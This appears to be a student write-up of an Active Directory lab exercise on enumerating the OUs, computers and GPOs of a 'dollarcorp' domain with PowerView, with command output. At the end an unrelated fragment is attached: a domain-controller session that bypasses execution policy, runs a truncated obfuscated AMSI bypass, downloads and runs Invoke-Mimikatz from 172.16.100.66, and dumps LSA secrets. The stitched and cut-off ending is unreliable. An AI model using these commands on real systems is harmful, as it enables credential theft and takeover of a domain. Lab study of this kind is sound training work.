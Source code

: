 
# Learning Objective 2:
Task
● Enumerate following for the dollarcorp domain:
− List all the OUs
− List all the computers in the StudentMachines OU.
− List the GPOs
− Enumerate GPO applied on the StudentMachines OU.

## List all the OUs
```
PS C:\ad> Get-NetOU
LDAP://OU=Domain Controllers,DC=dollarcorp,DC=moneycorp,DC=lo
LDAP://OU=Applocked,DC=dollarcorp,DC=moneycorp,DC=local
LDAP://OU=Servers,DC=dollarcorp,DC=moneycorp,DC=local
LDAP://OU=StudentMachines,DC=dollarcorp,DC=moneycorp,DC=local
```

## List all the computers in the StudentMachines OU.

```
PS C:\ad>  Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
dcorp-stdadm.dollarcorp.moneycorp.local
dcorp-std359.dollarcorp.moneycorp.local
dcorp-std360.dollarcorp.moneycorp.local
dcorp-std361.dollarcorp.moneycorp.local
dcorp-std362.dollarcorp.moneycorp.local
dcorp-std363.dollarcorp.moneycorp.local
dcorp-std364.dollarcorp.moneycorp.local
dcorp-std365.dollarcorp.moneycorp.local
dcorp-std366.dollarcorp.moneycorp.local
dcorp-std367.dollarcorp.moneycorp.local
dcorp-std368.dollarcorp.moneycorp.local
dcorp-std369.dollarcorp.moneycorp.local
dcorp-std370.dollarcorp.moneycorp.local
```

## List the GPOs
```
PS C:\ad> Get-NetGPO


usncreated               : 8016
systemflags              : -1946157056
displayname              : Default Domain Policy
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}][{B1BE8D72-6EAC-11D2-A4EA-00C04F79F83A}{53D6AB1B-2488-11D1-A28C-00C04FB94F17}]
whenchanged              : 2/17/2019 7:14:30 AM
objectclass              : {top, container, groupPolicyContainer}
gpcfunctionalityversion  : 2
showinadvancedviewonly   : True
usnchanged               : 13009
dscorepropagationdata    : {5/3/2020 9:04:05 AM, 2/21/2019 12:17:00 PM, 2/19/2019 1:04:02 PM, 2/19/2019 12:55:49 PM...}
name                     : {31B2F340-016D-11D2-945F-00C04FB984F9}
adspath                  : LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
flags                    : 0
cn                       : {31B2F340-016D-11D2-945F-00C04FB984F9}
iscriticalsystemobject   : True
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> powershell -ep bypass
[dcorp-dc]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0
[dcorp-dc]: PS C:\Users\svcadmin\Documents> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
[dcorp-dc]: PS C:\Users\svcadmin\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'